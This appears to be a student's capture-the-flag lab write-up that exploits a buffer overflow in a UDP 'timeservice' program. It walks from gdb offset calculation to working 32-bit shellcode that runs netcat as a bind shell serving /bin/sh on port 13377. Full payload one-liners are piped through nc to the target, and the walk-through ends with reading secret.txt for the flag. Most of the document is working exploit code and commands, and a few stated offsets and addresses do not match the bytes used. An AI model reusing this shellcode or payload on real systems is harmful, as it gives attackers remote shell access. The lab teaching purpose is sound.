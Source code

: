 Practical Task - 3 Buffer Overflow

Step 1 - Firstly, log into the chuck server -> enter "ifconfig -a" to list all the available network interfaces on Chuck's Machine
Step 2 - Run the command "ping -I eth1 -c3 10.12.27.03" to verify the connection
Step 3 - Run the command "nc -u 10.12.27.03" to check the availability of the timeservice
Step 4 - Open and edit the Makefile
	 run "vi Makefile" -> save and quit the file

Step 5 - Now Compile the timeservice file

===>run the command "make -B"


Step 6: Starting the timeservice with the help of gdb



===> run the command "gdb ./timeservice"

Step 7: Inside the debugger configure GDB for Debugging

Set breakpoints at critical lines:

In the given code, memcpy function is identified as a vulnerable function, setting the first breakpoint at line 37:

===> type "break 37"

Place the second breakpoint at the end of the get_time function on line 48:

===> type "break 48"

Lastly, set the third breakpoint in the main function where get_time is called, line 165:

===> type "break 165"

Configure GDB to follow fork mode that instructs GDB to follow the child process when a fork system call is encountered

===> type "set follow-fork-mode child"


Step 8: Run the timeservice in the locahost chuck machine mentioning ip address and the port number 

===> Use "run 127.0.0.1 2228"


Step 9: Triggering Buffer Overflow in the second terminal

In this Python script is used to generate a payload causing a buffer overflow:

===> python3 -c "import sys;filler = '\x00'+'\x41'*124+'\x42'*4;sys.stdout.buffer.write(filler.encode('latin-1'))" | nc -u 127.0.0.1 2228

After passing the payload via another terminal it hits the get_time breakpoint which is set at line number 165

Thread 3.1 "timeservice" hit Breakpoint 3, main (argc=3, argv=0xffffd744) at timeservice.c:165
165           get_time(msgbuf, returnstr, received);

To obtain the memory address of the msgbuf which we are going to use it as the return address of the shellcode injection,
use  " p &msgbuf"  for which we fot the output as:
$1 = (char (*)[256]) 0x804b300 <msgbuf>

Then type "continue" 

Thread 3.1 "timeservice" hit Breakpoint 1, get_time (format=0x804b300 <msgbuf> "", retstr=0x804c1a0 "", received=149) at timeservice.c:37
37        memcpy(timebuf,format,received);

Once the above output is received type the following commands to obtain the length that is overwritten
(gdb)===> type "p &timebuf"
$2 = (char (*)[128]) 0xffffd58c

(gdb)===> type "p &format"  
$3 = (char **) 0xffffd620

(gdb)===> type "p/d 0xffffd620 - 0xffffd58c"
$4 = 148

The actual size of the buffer is known by which the 148 bytes of payload should be constructed for the exploitation of the attack.

Step 10: Preparing the Shellcode

To create the shellcode, assemble the following assembly code: (we already have this code in exit.asm)

============================ Shell Code start ============================
section .text
    global _start

_start:
    xor ebx, ebx            ; Clear EBX (set to 0)
    pop eax                 ; Set EAX to 0x00
    int 0x80                ; Execute syscall (null operation for clearing registers)

    xor eax, eax            ; Clear EAX
    xor edx, edx            ; Clear EDX

    push 0x37373333         ; Push "3377" onto the stack
    push 0x3170762d         ; Push "-vp1" onto the stack
    mov edx, esp            ; Move pointer to "-vp13377" into EDX
    push eax                ; Push NULL terminator

    push 0x68732f6e         ; Push "n/sh" onto the stack
    push 0x69622f65         ; Push "e/bi" onto the stack
    push 0x76766c2d         ; Push "-lvv" onto the stack
    mov ecx, esp            ; Move pointer to "-lvve/bin/sh" into ECX
    push eax                ; Push NULL terminator

    push 0x636e2f2f         ; Push "//nc" onto the stack
    push 0x2f2f2f2f         ; Push "////" onto the stack
    push 0x6e69622f         ; Push "/bin" onto the stack
    mov ebx, esp            ; Move pointer to "/bin////nc" into EBX
    push eax                ; Push NULL terminator

    push edx                ; Push pointer to "-vp13377" argument
    push ecx                ; Push pointer to "-lvve/bin/sh" argument
    push ebx                ; Push pointer to "/bin////nc" argument

    xor edx, edx            ; Clear EDX (set it to NULL)
    mov ecx, esp            ; Point ECX to the argument array
    mov al, 0x0b            ; Set AL to 0xb (execve syscall)
    int 0x80                ; Trigger syscall


============================ Shell Code end ============================



# To Compile the assembly code using NASM
===>run the command "nasm -f elf32 exit.asm"

# To Create an object file
===> run the command "ld -m elf_i386 -o exiter exit.o"

# To Disassemble the object file
===> run the command "objdump -M intel -d exiter"


Step 11: Generating Shellcode of 69 bytes that is obtained from object file
===> 


x31\xdb\x58\xcd\x80\x31\xc0\x31\xd2\x68\x33\x33\x37\x37\x68\x2d\x76
\x70\x31\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x65\x2f\x62\x69\x68\x2d
\x6c\x76\x76\x89\xe1\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x2f\x2f\x2f\x68
\x2f\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x31\xd2\x89\xe1\xb0\x0b\xcd\x80


Step 12: Payload Creation

Inside our payload, we'll structure it to be 148 bytes long. This breakdown will include:

    69 bytes of shellcode
    1 byte of null byte
    4 bytes for the return address
    74 bytes of NOP (No Operation) sled code

The payload format will be as follows:

	\x00                # 1 byte null byte
	\x90\x90...\x90     # 24 NOP (\x90) operations
	\x31\xc0\x50...\x80 # 69 bytes of shellcode
	\x90\x90...\x90     # 50 NOP (\x90) operations
	\xc1\xb3\x04\x08    # 4 bytes of return address

Note: The return address is adjusted from 0x0804b300 to 0x0804b305, reflecting a slight modification for the Intel architecture.

Check if the shellcode works with local chuck machine by using:

echo -ne "\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x58\xcd\x80\x31\xc0\x31\xd2\x68\x33\x33\x37\x37\x68\x2d\x76\x70\x31\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x65\x2f\x62\x69\x68\x2d\x6c\x76\x76\x89\xe1\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x31\xd2\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x05\xb3\x04\x08" | nc -u 127.0.0.1 2222

Open another terminal, connect to the Chuck's machine:
====> nc 127.0.0.1 13377

Check if connection is established and able to access the files.

Step 13: Attack Server by Injecting Shellcode

Objective:
Sending a payload to gain control of the target server, specifically time on port 2222.
Shellcode Injection Command

The following command is used to send the payload:
===> 
echo -ne "\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x58\xcd\x80\x31\xc0\x31\xd2\x68\x33\x33\x37\x37\x68\x2d\x76\x70\x31\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x65\x2f\x62\x69\x68\x2d\x6c\x76\x76\x89\xe1\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x31\xd2\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x05\xb3\x04\x08" | nc -u time 2222


Connecting to the Server's Built Port
===> nc time 13377


Step 14: Now Retrieve secret.txt
Accessing Files After Gaining Control

change the directory by cd ..
===> use ls to list "ls" command and identify "secret.txt"
===> Read the contents of secret.txt using the command "cat secret.txt"

The obtained CTF content is: CTF{secret-iCpKOHIsGFxszDnlHiFC}



